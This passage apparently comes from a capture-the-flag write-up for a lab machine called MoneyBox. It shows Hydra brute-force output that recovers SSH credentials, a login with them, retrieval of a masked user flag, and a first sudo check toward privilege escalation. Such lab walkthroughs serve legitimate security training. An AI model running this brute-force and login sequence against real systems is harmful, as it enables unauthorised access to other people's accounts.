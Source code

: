 ```bash
[22][ssh] host: 192.168.89.230   login: renu   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-13 16:03:42
```

> Yes! We got his `ssh` credentials: `renu:987654321`
{: .prompt-info }

## `ssh` login
```bash
$ ssh renu@192.168.89.230                                                                                                                                                                                                           255 ⨯
renu@192.168.89.230's password: 
Linux MoneyBox 4.19.0-22-amd64 #1 SMP Debian 4.19.260-1 (2022-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Sep 23 10:00:13 2022
renu@MoneyBox:~$ whoami
renu
```

> We got a shell!
{: .prompt-info }

---

# post exploitation
## get first flag
```bash
renu@MoneyBox:~$ ls
ftp  local.txt
renu@MoneyBox:~$ cat local.txt 
5******************************8
```

## privilege escalation

We start with checking if we are allowed to execute commands as a super user.
```bash
$ sudo -l
[sudo] password for renu: 
Sorry, user renu may not run sudo on MoneyBox.
```
